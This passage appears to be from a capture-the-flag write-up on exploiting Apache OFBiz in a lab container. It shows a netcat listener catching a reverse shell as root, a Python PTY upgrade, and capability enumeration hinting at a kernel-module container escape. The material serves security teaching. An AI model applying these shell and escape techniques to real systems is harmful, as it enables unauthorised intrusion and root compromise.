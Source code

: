 
On sending that through Burp, a shell comes back:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 37802
    bash: cannot set terminal process group (30): Inappropriate ioctl for device
    bash: no job control in this shell
    root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# 



`python3` isn't installed, but `python` is:



    root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# python -c 'import pty;pty.spawn("bash")'
    <-17.12.01# python -c 'import pty;pty.spawn("bash")'
    root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# 



## Shell as root

### Enumeration

`capsh --print` will show the capabilities currently available inside
the container:



    root@335bd6937366:/# capsh --print
    Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
    Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
    Securebits: 00/0x0/1'b0
     secure-noroot: no (unlocked)
     secure-no-suid-fixup: no (unlocked)
     secure-keep-caps: no (unlocked)
    uid=0(root)
    gid=0(root)
    groups=



When a docker container is run with `--privileged`, [the container
get](https://capsule8.com/assets/ug/us-19-Edwards-Compendium-Of-Container-Escapes.pdf)
`CAP_SYS_MODULE` (load a kernel module), `CAP_SYS_RAWIO` (access
`/proc/kcore`, map `NULL`), and `CAP_SYS_ADMIN` ("true root" - `mount`,
`debugfs`, more).
